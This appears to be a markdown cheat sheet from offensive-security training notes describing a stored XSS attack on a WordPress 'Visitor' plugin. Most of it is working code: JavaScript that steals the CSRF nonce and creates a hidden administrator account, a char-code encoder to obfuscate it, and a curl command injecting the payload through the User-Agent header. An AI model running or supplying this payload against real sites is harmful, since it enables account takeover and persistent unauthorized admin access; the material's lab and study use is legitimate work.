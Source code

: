 ## Wordpress HttpOnly Cookie

This attack works on the **Visitor** plugin

To attack with a HttpOnly cookie on wordpress: We need to create a Js function that fetches the nonce which is a server generated token to prevent CSRF attacks.

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

Now with the nonce we can create a new admin user:

```js
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

**Attack**

1. First Minify the js code into a one liner in **JS Compress**
2. Then Encode the JS code with: Run it from browser console and use the encoded output

```js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Leave intercept on in burp and run:

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<Encoded JS>))</script>" --proxy 127.0.0.1:8080
```

Forward the request and when the admin uses the visitors plugin the script will execute and create a new user.
